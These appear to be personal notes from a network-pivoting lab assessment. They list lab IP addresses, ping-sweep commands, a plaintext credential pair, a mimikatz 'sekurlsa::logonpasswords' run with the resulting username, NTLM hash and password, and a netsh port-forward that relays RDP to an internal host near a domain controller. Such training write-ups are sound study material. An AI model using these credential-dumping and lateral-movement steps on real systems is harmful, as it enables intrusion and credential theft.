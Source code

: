 ![[skill assessment.drawio.png]]

- 10.129.121.82 
	- internal IP: 172.16.5.15 
	- id_rsa for webadmin
	- `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
		- run this on 10.129.135.224 
		- 172.16.5.35
- 172.16.5.35 
	- `mlefay:Plain Human work!` -- for connecting servers in internal network 
	- pivot host - 10.129.135.224 
	- Internal IP - 172.16.6.35
	-  open ports - 22,135,139,445,3389
	- run .\mimikatz.exe
		- `sekurlsa::logonpasswords`
			- Username: vfrank
			- NTLM     : 2e16a00be74fa0bf862b4256d0347e83
			- Password: Imply wet Unmasked!
	- `for /L %i in (1,1,255) do @ping -n 1 -w 200 172.16.6.%i > nul && echo 172.16.6.%i is up.` -- ping sweep to find other servers
		- 172.16.6.25 and 172.16.6.45 
	- `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25`
- 172.16.6.25
	- vfrank:'Imply wet Unmasked!'
	- there was a drive mapped on the server `AutomateDCAdmin (Z:)` 
		- which is the drive for Domain Controller


